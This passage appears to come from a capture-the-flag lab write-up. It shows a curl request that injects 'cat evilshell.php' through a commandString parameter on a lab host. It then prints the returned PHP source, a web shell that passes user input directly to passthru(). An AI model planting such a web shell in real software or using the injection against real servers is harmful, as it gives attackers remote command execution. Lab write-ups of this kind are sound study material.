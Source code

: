 **Result:** DR PEPPER

[Part 3. Get full source code]

*) This the technique of my teacher shows me to get the full source code and build the lab by ourselves

- Firstly, we ls to see all files:

```
css drpepper.txt evilshell.php index.php js
//[?] there is a file called index.php. But what is it used for ?  
```

- Now we only need to ctrl + u to get the all files in folder js and css
- For server side script like php, we have to cat the file evilshell.php and curl because cat the file will run the source code of file evilshell.php on front-end

```
──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.10.27.205/evilshell.php?commandString=cat+evilshell.php                     
//[?] the source code is after button tag 
                    <button type="submit" class="btn btn-primary w-100">Submit</button>
<!doctype html>
<html lang="en">
......

<body>
    <div class="container" id="glass">
        <div class="align-items-center justify-content-center row" style="min-height: 100vh;">
            <div class="col-sm-6 text-center">
                <form action="" method="get">
                    <h4 class="display-4">EvilShell</h4>
                    <div class="form-group">
                        <input type="text" name="commandString" class="form-control" id="commandString"
                            placeholder="Enter command..."> 
                    </div>
                    <button type="submit" class="btn btn-primary w-100">Submit</button>
                    <?php

                    if (isset($_GET["commandString"])) {
                        $command_string = $_GET["commandString"];
                        
                        try {
                            passthru($command_string);
                        } catch (Error $error) {
                            echo "<p class=mt-3><b>$error</b></p>";
                        }
                    }
                        
                ?>
                </form>
            </div>
        </div>
    </div>
</body>
```
